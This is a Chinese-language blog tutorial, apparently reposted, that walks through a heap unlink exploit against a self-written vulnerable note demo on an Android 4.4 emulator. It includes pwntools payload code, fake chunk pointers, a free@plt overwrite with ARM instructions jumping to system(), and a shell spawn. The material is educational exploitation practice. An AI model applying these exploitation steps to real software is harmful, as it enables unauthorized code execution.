








原文 by [manyface](http://manyface.github.io/2016/05/19/AndroidHeapUnlinkExploitPractice/?spm=a313e.7916648.0.0.ceAf31)  
## 前言
最近学习了堆的管理，如何进行unlink利用。发现大多数文章在讲解利用unlink进行任意地址写时没有解释得很透彻，看得是云里雾里，直到看到了shellphish团队在github上的项目how2heap，才弄明白了利用unlink进行任意地址写的原理。于是自己在Android4.4模拟器上设计了一个Demo，用于练习unlink利用。下面基于这个Demo来具体分析unlink利用的原理。在继续阅读之前，可以先看一下这一篇博文。由于水平有限，不对的地方还请各位大牛赐教。  

## Demo分析
该Demo是一个native可执行程序(源码)，主要的功能是建立note，并保存用户的输入到该note，每一个note的大小为0x80，总共可以新建10个note，每个note可以通过notes这个全局变量来索引。比如：建立一个note，索引为0，note 0 的内容为“1234”；然后把 note 0 的内容重新改为“5678”；接着释放掉note 0；最后退出程序。其操作如下：  
```
root@generic:/data/local/tmp # ./unlink_demo
usage: 0:malloc 1:free 2:edit 3:exit
input cmd and note index (eg:0,1 -> cmd=0,note_index=1):
0,0    //新建note 0
input note len:
4     //输入note 0的内容长度
input note:
1234  //输入note 0的内容
usage: 0:malloc 1:free 2:edit 3:exit
input cmd and note index (eg:0,1 -> cmd=0,note_index=1):
2,0   //修改note 0的内容
input note len:
4     //输入note 0的内容长度
input note:
5678  //输入note 0的内容
usage: 0:malloc 1:free 2:edit 3:exit
input cmd and note index (eg:0,1 -> cmd=0,note_index=1):
1,0   //释放note 0
usage: 0:malloc 1:free 2:edit 3:exit
input cmd and note index (eg:0,1 -> cmd=0,note_index=1):
3   //退出程序
```
然而在handle_cmd()函数中，给notes中的note赋值时，没有对note_size进行检查，如果note_size大于0x80，会导致堆溢出。  

## 利用
这里把利用过程分为6个步骤：    

1. 新建note 0和note 1
2. 伪造相关数据
3. free(notes[1])，触发unlink
4. 将free@plt的地址写入notes[0]
5. 修改free@plt的指令
6. 新建并释放notes[2]，触发system(“/system/bin/sh”)
下面对每一个步骤进行详细的讲解。  

### 准备
启动一个Android 4.4模拟器(Arm)，将unlink_demo、gdb和socat push到/data/local/tmp目录下：  
```
adb push unlink_demo /data/local/tmp
adb push gdb /data/local/tmp
adb push socat /data/local/tmp
```
进入模拟器shell环境，通过socat将unlink_demo作为服务绑定到端口12345：  

```
adb shell
cd /data/local/tmp
./socat tcp4-listen:12345,fork exec:/unlink_demo
```
在主机上配置端口转发：  
`adb forward tcp:12345 tcp:12345` 
安装[Pwntools](http://pwntools.com/)    

`pip install pwntools`  
#### step 1. 新建note 0和note 1  
```
self.__malloc_note(0, 4, "c" * 4)
self.__malloc_note(1, 4, "c" * 4)
``` 
这里建立了两个note，内容均初始化为”cccc”，此时的内存布局如下图所示。  
  

notes[0]中存的是note 0的起始地址，notes[1]中存的是note 1的起始地址。在使用malloc进行分配内存时，对于32位来说，分配的内存是8字节对齐的，且实际分配内存的起始地址要比malloc的返回值小8，多出的8个字节表示前一个内存块的大小presize(如果前一个内存块是空闲的)和当前内存块的大小size，由于内存8字节对齐，因而size的低3位用作标志位。  

#### step 2. 伪造相关数据  
首先来看一下Android中空闲内存块的结构：    
   

presize: 前一个块的大小(如果前一个块是空闲的)  
size：当前块的大小  
F标志位：目前还没有用  
C标志位：如果当前块已被分配，置1；否则，置0  
P标志位：如果前一个块已被分配，置1,；否则，置0  
如果C、P都是0，表示该内存块是通过mmap得到的，这也说明了在内存中，是不存在两个连续相邻的大内存块。(注意： Android中空闲内存块标志位的含义和Linux的不一样)  
fd：下一个空闲内存块的地址  
bk：上一个空闲内存块的地址  
可见空闲内存块被连接成了双向空闲链表。当free一个内存块时，会检查前一个内存块是否是空闲的，如果是，首先会调用unlink()函数将前一个空闲内存块从空闲链表中移除，然后将当前内存块和前一个内存块合并，最后将合并后的内存块加入空闲链表中。(当然也会检查后一个内存块是否空闲。由于这里设计的利用程序是通过构造向前合并触发unlink，因而没有讨论这种情况，其实原理是一样的）  

unlink的关键操作如下：  
``` c
//将 p 移除链表
F = p -> fd;
B = p -> bk;
if (F -> bk == p && B -> fd == p){
  F -> bk = B;
  B -> fd = F;
}
```
由于每个note的大小是0x80，当对note填充内容的长度超过0x80时，就会发生堆溢出。因而，我们可以向 note 0 填充0x88字节的内容，多出的8个字节将会覆盖 note 1 的presize和size&flag。那么如何构造填充的内容以便free(notes[1])的时候触发unlink呢？首先修改 note 1 中的P标志位，将其置0，这样就会认为前一个块 note 0 是空闲的；然后将 note 1 内存块的presize字段改为0x80，这样就会认为前一个内存块大小只有0x80(包括presize、size&flag、fd和bk)，且这0x80字节的内容完全可控；最后设计伪造空闲块的fd和bk。由于unlink时，会对unlink的节点的合法性进行检查，即该节点的前一个节点的bk指针必须指向该节点，并且该节点的后一个节点的fd指针必须指向该节点，因而fd和bk不能随便构造。由于全局变量notes刚好指向note 0 的起始地址，可以把它认为是伪造空闲块的chunk ptr，所以，当fake_free_note->fake_fd = notes - 12，fake_free_note->fake_bk = notes - 8 时，就可以绕过unlink的检查。具体的构造代码如下：  
``` c
notes_addr = int(raw_input("notes address:"), 16)
# "c"*8 + fake_fd + fake_bk + "c"*0x70 + fake_presize + modify_pre_inuse_flag
note0_content = "c" * 8 + p32(notes_addr - 12) + p32(notes_addr - 8) + "c" * 0x70 + p32(0x80) + p32(0x88 | 0x02)
self.__edit_note(0, 0x88, note0_content)
```
其中notes_addr的值可以通过gdb获得(记得退出gdb)：  
```
root@generic:/data/local/tmp # ./gdb -pid 3477  //3477 是unlink_demo进程的id
(gdb) p/x *(0xb004)   //通过ida分析可以知道0xb004处存的是notes_addr的地址。
$1 = 0x1030020
(gdb) q
The program is running.  Quit anyway (and detach it)? (y or n) y
```
此时的内存布局如下：  

   

#### step 3. free(notes[1])，触发unlink
`self.__free_note(1)  # free notes[1]`  
由于在 note 1 前面构造了一个伪造的空闲内存块，当free(notes[1])时，就会对伪造的空闲内存块进行unlink操作：  
``` c
F = p -> fd;  //F = notes - 12
B = p -> bk;  //B = notes - 8
if (F -> bk == p && B -> fd == p){
  F -> bk = B;  // 即notes[0] = B = notes - 8
  B -> fd = F;  // 即notes[0] = F = notes -12
}
```
从上可知，unlink后，notes[0]存的不再是note 0 的起始地址了，而是notes - 12。此时我们只关心notes数组的内存，其布局如下：  
   

#### step 4. 将free@plt的地址写入notes[0]
由于此时notes[0] = notes -12 ，所以notes[0][0]其实就是 notes - 12 地址处的一个字节，notes[0][12~15]其实就是notes[0]。因而我们可以通过向note 0写入16个字节将任意值写入notes[0]，这里将.plt section中free的地址写入notes[0]：  
``` 
note0_content = "c" * 12 + p32(self.free_plt_addr)
self.__edit_note(0, 0x10, note0_content)
```
在ida中查看free_plt_addr为0x8558  
  

此时notes数组的内存如下：  

  

#### step 5. 修改free@plt的指令
为了调用free()时，实际调用的是system()，这里需要将free@plt函数的指令修改使其跳转到system()函数。首先我们把模拟器上的libc.so拿到：  

`adb pull /system/lib/libc.so`  
然后在ida中查看system函数的偏移：  
  

可见system的指令为thumb指令，在libc.so中的偏移为system_offset=0x246A1。接着通过读取/proc/pid/maps得到libc.so的基址libc_base，从而system()在内存中的实际地址就是system_addr=libc_base+system_offset。  

于是刚好可以将free@plt的指令修改为：  

```
LDR R1, [PC]
BLX R1
system_addr
```
假如system_addr为0xB124A561，那么上面指令的机器码为：  
```
00109FE5
31FF2FE1
61A524B1
```
具体的代码如下：  

```
note0_content = p32(0xE59F1000) + p32(0xE12FFF31) + p32(self.system_addr)
self.__edit_note(0, 0xC, note0_content)
```
ps：在unlink_demo中.got section所在segment的flags是可写的，但是一运行起来，从/proc/pid/maps得到的结果却是该segment只读，于是只好修改unlink_demo文件中代码段的属性为可读写，这样就可以运行时修改free@plt的指令了。  
其实本来想直接修改got中free的地址，苦于这段内存只读，不知道怎么设置为可写。  

#### step 6. 新建并释放notes[2]，触发system(“/system/bin/sh”)
```
self.__malloc_note(2, 0xE, "/system/bin/sh")
self.__free_note(2)
```
当free(notes[2])时，由于free@plt会直接跳转到system()，所以这里相当于调用system(notes[2])，而notes[2]指向“/system/bin/sh”，所以这里相当于执行system(“/system/bin/sh”)，从而得到shell，利用成功！  

#### 结果
运行利用程序exp_unlink.py，通过gdb得到notes的地址，最后的运行结果如下：  

  

ps：完整的利用代码和涉及到的工具可以在我的github[下载](https://github.com/ManyFace/AndroidHeap/tree/master/AndroidUnlinkExploit)    
将how2heap中unsafe_unlink.c修改为32位后在Android模拟器上是运行不成功的，通过对比Linux和Android unlink时的源码发现，在Android中多了一条检测条件：ok_address(M, F)，就是检查F地址的合法性，因为malloc/free绝对不会向一个静态地址写数据。于是将unsafe_unlink.c 中`uint32_t* pointer_vector[10];` 改为  `uint32_t** pointer_vector; pointer_vector=(uint32_t**)malloc(10*sizeof(uint32_t));` 就可以在Android上跑通了。  

## 参考
https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c   
http://code.woboq.org/userspace/glibc/malloc/malloc.c.html  
http://androidxref.com/5.1.1_r6/xref/bionic/libc/upstream-dlmalloc/malloc.c  
https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/  